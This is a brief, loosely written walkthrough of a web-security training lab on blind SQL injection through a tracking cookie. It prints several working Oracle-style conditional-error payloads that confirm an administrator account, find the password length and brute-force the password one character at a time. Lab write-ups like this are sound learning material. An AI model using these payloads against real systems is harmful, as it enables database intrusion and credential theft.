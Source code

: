 blind sql injection with conditional errors

use this quatation in tracker cookies

analysis

in (') this single quatation we have a error
in ('')this double quatation we dont have a error

so it is vulnerable


`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
in this query we got the 500 error

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='dsvdvcxb zv')||'`
after we use the some random username it will exists
this shows the adminisatrator in not database


now we find lenght of the password

`'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
lenght of the password is finded

`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
 after brute forcing in this query we find the first letter is "L"
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
after we try the brute force in password lenght to find the password 

we find the password and successfully finished the lab




 


